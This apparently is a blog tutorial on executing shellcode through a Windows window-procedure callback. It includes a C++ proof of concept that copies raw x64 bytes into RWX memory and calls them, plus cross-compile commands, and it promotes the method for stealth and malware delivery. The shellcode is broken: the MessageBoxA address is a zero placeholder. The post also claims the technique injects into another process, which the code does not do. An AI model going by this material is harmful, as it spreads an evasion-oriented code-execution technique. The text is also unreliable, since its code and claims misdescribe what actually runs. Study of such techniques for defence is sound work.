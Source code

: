 # Shellcode Injection via Window Callbacks
---

## Introduction

Shellcode injection is a powerful tactic in exploit development and security research, allowing arbitrary code to run within another process. One lesser-known but effective method leverages **window callbacks** in the Windows GUI messaging system to execute shellcode via a custom window procedure (WndProc).

This post provides a detailed overview of this approach, including theory, a fresh proof-of-concept (POC) in C++ (different from previous samples), implementation details, and a security discussion. Whether you're a beginner or expert, this walkthrough aims to bridge theory and practice.

## Table of Contents

- [Introduction](#introduction)
- [Understanding Window Callbacks](#understanding-window-callbacks)
- [Shellcode Injection via Window Callbacks](#shellcode-injection-via-window-callbacks)
- [Proof-of-Concept (POC) Code](#proof-of-concept-poc-code)
- [Compiling on Kali Linux for Windows](#compiling-on-kali-linux-for-windows)
- [How It Works](#how-it-works)
- [Security Considerations](#security-considerations)
- [Conclusion](#conclusion)

## Understanding Window Callbacks

### What is a Callback?

A callback is a function the system calls in response to an event. In Windows applications, callbacks form the backbone of event-driven programming, especially in handling user input and system messages.

### Window Procedure (WndProc)

A **window procedure** is a callback that processes messages (like keystrokes or mouse clicks) for a specific window. Its typical signature:

```cpp
LRESULT CALLBACK WndProc(HWND hwnd, UINT msg, WPARAM wParam, LPARAM lParam);
```

- `hwnd`: Handle to the window.
- `msg`: The message identifier.
- `wParam`, `lParam`: Message-specific data.

Windows uses a message queue to store messages per thread, which a **message loop** retrieves and dispatches to the corresponding WndProc.

This predictable mechanism makes WndProc a prime candidate for triggering injected shellcode.

## Shellcode Injection via Window Callbacks

### Concept

This method involves:

1. Registering a window class and creating a window with a custom WndProc.
2. Allocating executable memory using `VirtualAlloc`.
3. Writing shellcode into that memory.
4. Triggering WndProc with a custom message to execute the shellcode.
5. Cleaning up memory afterward.

Why this method?

- **Reliable**: WndProc is guaranteed to be called by Windows for messages.
- **Controlled**: You control message dispatch timing.
- **Low suspicion**: Uses standard GUI event flows.
- **Simple**: No need for remote thread injection or IAT hooking.

## Proof-of-Concept (POC) Code

Here's a new C++ POC demonstrating shellcode injection via a window callback. This displays a MessageBox and cleans up after execution.

```cpp
#include <windows.h>

// Minimal 64-bit shellcode to show MessageBox
unsigned char shellcode[] = {
    0x48, 0x83, 0xEC, 0x28, // sub rsp, 0x28
    0x48, 0x31, 0xC9,       // xor rcx, rcx
    0x48, 0x8D, 0x15, 0x1E, 0x00, 0x00, 0x00, // lea rdx, [rel msg]
    0x4C, 0x8D, 0x05, 0x1F, 0x00, 0x00, 0x00, // lea r8, [rel title]
    0x48, 0x31, 0xC9,       // xor rcx, rcx
    0x48, 0xB8, 0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00, // mov rax, MessageBoxA address placeholder
    0xFF, 0xD0,             // call rax
    0x48, 0x83, 0xC4, 0x28, // add rsp, 0x28
    0xC3,                   // ret
    0x48, 0x65, 0x6C, 0x6C, 0x6F, 0x20, 0x57, 0x6F, 0x72, 0x6C, 0x64, 0x00, // "Hello World\0"
    0x54, 0x65, 0x73, 0x74, 0x00 // "Test\0"
};

LRESULT CALLBACK WndProc(HWND hwnd, UINT msg, WPARAM wParam, LPARAM lParam) {
    static LPVOID shellcodeAddr = NULL;
    if (msg == WM_USER + 100) {
        shellcodeAddr = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
        if (!shellcodeAddr) {
            MessageBoxW(hwnd, L"Memory allocation failed", L"Error", MB_OK | MB_ICONERROR);
            return 0;
        }
        memcpy(shellcodeAddr, shellcode, sizeof(shellcode));
        ((void(*)())shellcodeAddr)();
        VirtualFree(shellcodeAddr, 0, MEM_RELEASE);
        shellcodeAddr = NULL;
        return 0;
    }
    if (msg == WM_DESTROY) {
        PostQuitMessage(0);
        return 0;
    }
    return DefWindowProcW(hwnd, msg, wParam, lParam);
}

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
    WNDCLASSW wc = {0};
    wc.lpfnWndProc = WndProc;
    wc.hInstance = hInstance;
    wc.lpszClassName = L"InjectWindow";

    if (!RegisterClassW(&wc)) {
        MessageBoxW(NULL, L"Window class registration failed", L"Error", MB_OK | MB_ICONERROR);
        return 1;
    }

    HWND hwnd = CreateWindowExW(0, L"InjectWindow", L"Shellcode Demo",
        WS_OVERLAPPEDWINDOW, CW_USEDEFAULT, CW_USEDEFAULT, 400, 300, NULL, NULL, hInstance, NULL);

    if (!hwnd) {
        MessageBoxW(NULL, L"Window creation failed", L"Error", MB_OK | MB_ICONERROR);
        return 1;
    }

    ShowWindow(hwnd, nCmdShow);
    UpdateWindow(hwnd);

    SendMessageW(hwnd, WM_USER + 100, 0, 0);

    MSG msg = {0};
    while (GetMessageW(&msg, NULL, 0, 0)) {
        TranslateMessage(&msg);
        DispatchMessageW(&msg);
    }

    return (int)msg.wParam;
}
```

## Compiling on Kali Linux for Windows

Use **MinGW-w64** for cross-compilation:

```bash
sudo apt update && sudo apt install mingw-w64
x86_64-w64-mingw32-g++ -static -static-libgcc -static-libstdc++ -DUNICODE -D_UNICODE -mwindows shellcode_injection.cpp -o shellcode_injection.exe
```

Key flags:

- `-static`: Avoids dynamic dependencies.
- `-mwindows`: Links GUI subsystem.
- `-DUNICODE`: Enables Unicode APIs.

Then transfer `shellcode_injection.exe` to a Windows machine for testing.

## How It Works

1. **Registers a window class** and creates a window.
2. Shows the window.
3. Sends custom message `WM_USER + 100` to trigger WndProc.
4. WndProc allocates executable memory and copies shellcode.
5. Shellcode runs (displays MessageBox).
6. Memory is freed.
7. The window remains open until closed.

## Security Considerations

- **Stealth**: Works via normal Windows messaging.
- **Controlled**: Execution can be triggered predictably.
- **Abuse potential**: Can be used for malware delivery.
- Always test responsibly in isolated environments.

## Conclusion

Shellcode injection using window callbacks is a fascinating and practical method for executing arbitrary code in a Windows process. This POC demonstrates a clean, stable implementation leveraging the Windows GUI messaging system for execution flow control. A valuable technique for both defenders and red teamers exploring Windows internals.

Thanks for reading!
— **Malforge Group**
